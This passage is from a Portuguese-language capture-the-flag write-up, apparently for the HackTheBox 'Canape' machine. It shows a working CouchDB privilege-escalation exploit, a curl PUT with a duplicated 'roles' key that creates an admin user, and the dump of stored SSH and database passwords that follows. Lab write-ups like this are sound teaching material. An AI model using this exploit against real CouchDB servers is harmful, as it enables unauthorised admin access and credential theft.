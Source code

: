 O usuário www-data não dá nem a flag do user. E, dando uma olhada no diretório /home pode-se ver que nosso alvo é o usuário homer.
Depois de dar uma fuçada aqui ali, lembrar, após rodar um **netstat -l**, que havia um servidor de banco de dados rodando, pensei em ir nas configurações do servidor web e puxar as credenciais do banco. Poderia ter algo útil. Para minha surpresa, graças ao netstat, também observei um servidor SSH que o nmap não encontrou porque está rodando na porta 65535. Um script kiddie, como eu, rodando o nmap com as flags padrão também deixaria passar essa porta de entrada. Da próxima vez não custa nada deixar um nmap -p- rodando em background enquanto estou tentando outras coisas. Nunca se sabe.

Voltando ao banco de dados: encontrei um rce para o mesmo que permite a criação de um usuário admin [https://justi.cz/security/2017/11/14/couchdb-rce-npm.html](https://justi.cz/security/2017/11/14/couchdb-rce-npm.html)


```
$ curl -X PUT 'http://localhost:5984/_users/org.couchdb.user:ratf' --data-binary '{"type": "user", "name": "ratf", "roles":["_admin"], "roles": [], "password": "password" }'
<", "roles":["_admin"], "roles": [], "password": "password" }'
{"ok":true,"id":"org.couchdb.user:oops2","rev":"1-f464111abaed3e1de36f3066c0011c71"}
www-data@canape:/$
```

Bom, agora com acesso adm ao banco, hora de ver o que havia guardado. Acessar os recursos do couchdb via curl foi trabalhoso porque no começo eu não fazia ideia do que realmente estava fazendo. Foi após ler [documentação](http://docs.couchdb.org/en/stable/intro/curl.html) atrás de [documentação](http://guide.couchdb.org/draft/tour.html) que comecei a compreender como mandar umas querys. Logo mandei uma que me retornasse credenciais.

```
$ curl -X GET curl -X GET ‘http://ratf:password@localhost:5984/passwords/_all_docs?include_docs=true'
```

Recebi como resposta um json nojento e não formatado na tela. Após formata-lo, vi isso:


```
{
  "_id": "739c5ebdf3f7a001bebb8fc4380019e4",
  "_rev": "2-81cf17b971d9229c54be92eeee723296",
  "item": "ssh",
  "password": "0B4jyA0xtytZi7esBNGp",
  "user": ""
}

{
  "_id": "739c5ebdf3f7a001bebb8fc43800368d",
  "_rev": "2-43f8db6aa3b51643c9a0e21cacd92c6e",
  "item": "couchdb",
  "password": "r3lax0Nth3C0UCH",
  "user": "couchy"{
  "_id": "739c5ebdf3f7a001bebb8fc438004738",
  "_rev": "1-49a20010e64044ee7571b8c1b902cf8c",
  "user": "homerj0121",
  "item": "github",
  "password": "STOP STORING YOUR PASSWORDS HERE -Admin"
}
}

{
  "_id": "739c5ebdf3f7a001bebb8fc438003e5f",
  "_rev": "1-77cd0af093b96943ecb42c2e5358fe61",
  "item": "simpsonsfanclub.com",
  "password": "h02ddjdj2k2k2",
  "user": "homer"
}
```
